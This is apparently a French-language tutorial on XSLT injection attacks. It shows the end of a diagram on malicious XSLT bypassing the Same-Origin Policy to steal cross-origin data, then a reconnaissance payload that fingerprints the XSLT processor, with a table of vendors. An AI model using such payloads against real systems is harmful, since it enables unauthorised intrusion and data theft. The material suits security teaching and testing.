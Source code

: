 ```
├─────────────────────────────────────────────────────────┤
│ 1. Page web charge XML + XSLT                          │
│ 2. Navigateur applique la transformation               │
│ 3. XSLT malveillant contourne Same-Origin Policy       │
│ 4. → Vol de données cross-origin                       │
└─────────────────────────────────────────────────────────┘
```

***

### 3️⃣ RECONNAISSANCE ET COLLECTE D'INFORMATIONS

#### 🔎 Étape 1 : Identifier le processeur XSLT

**Pourquoi ?** Chaque processeur a ses propres vulnérabilités et fonctionnalités.

**Payload de reconnaissance :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <html>
      <body>
        <h2>Informations du processeur XSLT</h2>
        <p><b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/></p>
        <p><b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')"/></p>
        <p><b>Vendor URL:</b> <xsl:value-of select="system-property('xsl:vendor-url')"/></p>
        
        <!-- Propriétés Saxon spécifiques -->
        <xsl:if test="system-property('xsl:product-name')">
          <p><b>Product:</b> <xsl:value-of select="system-property('xsl:product-name')"/></p>
          <p><b>Version:</b> <xsl:value-of select="system-property('xsl:product-version')"/></p>
        </xsl:if>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

**Résultats typiques :**

| Processeur | xsl:vendor                   | Support JavaScript     |
| ---------- | ---------------------------- | ---------------------- |
| Libxslt    | `libxslt`                    | Non (sauf navigateurs) |
| Xalan-C    | `Apache Software Foundation` | Non                    |
| Xalan-J    | `Apache Software Foundation` | Non                    |
| Saxon      | `Saxonica`                   | Non                    |
| Firefox    | `Transformiix`               | Oui                    |
| IE         | `Microsoft`                  | Oui                    |
